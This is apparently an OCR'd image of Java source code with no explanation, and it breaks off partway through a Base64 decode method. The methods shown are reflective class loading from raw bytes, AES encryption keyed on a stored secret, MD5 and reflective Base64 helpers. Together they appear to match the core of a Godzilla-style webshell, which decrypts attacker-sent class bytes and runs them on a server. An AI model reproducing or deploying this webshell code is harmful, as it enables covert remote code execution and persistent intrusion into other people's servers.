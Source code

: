 ```java
  private static Class defineClass(byte[] classbytes) throws Exception {
    URLClassLoader urlClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
    Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    method.setAccessible(true);
    return (Class) method.invoke(urlClassLoader, classbytes, 0, classbytes.length);
  }
  
  public byte[] x(byte[] s, boolean m) {
    try {
      javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
      c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(key.getBytes(), "AES"));
      return c.doFinal(s);
    } catch (Exception e) {
      return null;
    }
  }
  
  public static String md5(String s) {
    String ret = null;
    try {
      java.security.MessageDigest m;
      m = java.security.MessageDigest.getInstance("MD5");
      m.update(s.getBytes(), 0, s.length());
      ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
    } catch (Exception e) {
    }
    return ret;
  }
  
  public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
      base64 = Class.forName("java.util.Base64");
      Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
      value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
    } catch (Exception e) {
      try {
        base64 = Class.forName("sun.misc.BASE64Encoder");
        Object Encoder = base64.newInstance();
        value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
      } catch (Exception e2) {
      }
    }
    return value;
  }
  
  public static byte[] base64Decode(String bs) throws Exception {
    Class base64;
    byte[] value = null;
    try {
      base64 = Class.forName("java.util.Base64");
      Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
      value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
    } catch (Exception e) {
      try {
        base64 = Class.forName("sun.misc.BASE64Decoder");
        Object decoder = base64.newInstance();
```